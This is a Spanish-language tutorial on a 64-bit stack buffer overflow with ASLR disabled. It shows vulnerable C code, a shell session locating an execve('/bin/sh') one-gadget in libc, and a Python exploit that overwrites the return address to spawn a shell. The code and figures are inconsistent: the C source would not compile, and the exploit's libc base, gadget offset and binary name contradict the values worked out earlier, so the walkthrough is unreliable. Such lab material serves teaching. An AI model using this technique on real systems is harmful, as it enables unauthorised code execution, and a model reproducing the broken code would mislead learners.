 # Explicación de exploit 64 bits

Este ejercicio ilustra cómo se haría una explotación en un entorno de 64 bits. 
Importante: Se va a hacer con ASLR desactivado. En el ejercicio de format string (el reto), tendremos ASLR activo y veremos cómo hacer bypass. 

## Código fuente

El código fuente es: 

```c
#include<stdio.h> 
#include<string.h> 


void vuln()
{ 
  char buf[100]; 
  strcpy(buf,argv[1]); 
  printf("Input was: %s\n",buf); 
  return 0; 
}


int main(int argc, char *argv[]) 
{
  vuln();
}



```



#### Análisis de la vulnerabilidad. 

La vulnerabilidad es la típica de buffer overflow. Tendremos que encontrar el offset. Tenemos un offset de 120 bytes. 


#### Búsqueda de un one-gadget  

Tenemos que encontrar un gadget que ejecute `execve ("/bin/sh", 0,0)`. Para eso inspeccionamos la libc: 

```
root@kali:~/bufferoverflow/stackOverflow/x64# ldd ./vuln  # Miramos el fichero libc que se está usando
        linux-vdso.so.1 (0x00007ffff7ffd000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffff7e12000)
        /lib64/ld-linux-x86-64.so.2 (0x0000555555554000)
root@kali:~/bufferoverflow/stackOverflow/x64# objdump -M intel -d /lib/x86_64-linux-gnu/libc.so.6 > dump  # Volcamos el desensamblado (formato Intel) en el fichero dump

root@kali:~/bufferoverflow/stackOverflow/x64# strings -tx /lib/x86_64-linux-gnu/libc.so.6 | grep /bin/sh  # Buscamos /bin/sh y la encontramos en el offset 0x183cee
 183cee /bin/sh
root@kali:~/bufferoverflow/stackOverflow/x64# cat dump | grep execve -B5 | grep rdi -C3 | grep 183cee -C3
   c84d8:       00 00 
   c84da:       4c 89 ea                mov    rdx,r13
   c84dd:       4c 89 e6                mov    rsi,r12
   c84e0:       48 8d 3d 07 b8 0b 00    lea    rdi,[rip+0xbb807]        # 183cee <_libc_intl_domainname@@GLIBC_2.2.5+0x17e>
   c84e7:       e8 94 f9 ff ff          call   c7e80 <execve@@GLIBC_2.2.5>
--
   c8592:       48 85 c0                test   rax,rax
--
   e6646:       e8 15 59 00 00          call   ebf60 <__close@@GLIBC_2.2.5>
   e664b:       48 8b 05 5e 28 0d 00    mov    rax,QWORD PTR [rip+0xd285e]        # 1b8eb0 <__environ@@GLIBC_2.2.5-0x3eb0>
   e6652:       48 8d 74 24 60          lea    rsi,[rsp+0x60]
   e6657:       48 8d 3d 90 d6 09 00    lea    rdi,[rip+0x9d690]        # 183cee <_libc_intl_domainname@@GLIBC_2.2.5+0x17e>
   e665e:       48 8b 10                mov    rdx,QWORD PTR [rax]
   e6661:       e8 1a 18 fe ff          call   c7e80 <execve@@GLIBC_2.2.5>
--
root@kali:~/bufferoverflow/stackOverflow/x64# 

```
Anotamos la dirección 0xe664b como la que va a permitir ejecutar la función execve. 

Ahora sumamos dicho offset a la dirección base en la que se carga la LIBC (como hemos deshabilitado ASLR se carga siempre en el mismo sitio --> el que hemos obtenido con ldd): 

Dirección de gadget: `0x00007ffff7e12000 + 0xe664b`


Escribimos el siguiente exploit: 

from os import system
from struct import pack
junk='A'*120
libc_base=0x00007ffff79f5000
onegadget=pack("Q",libc_base+0xfccde)        #gadget address
payload = junk + onegadget
with open("tmp","w") as f:
 f.write(payload)
system("./buf64 `cat tmp`") #because of null bytes
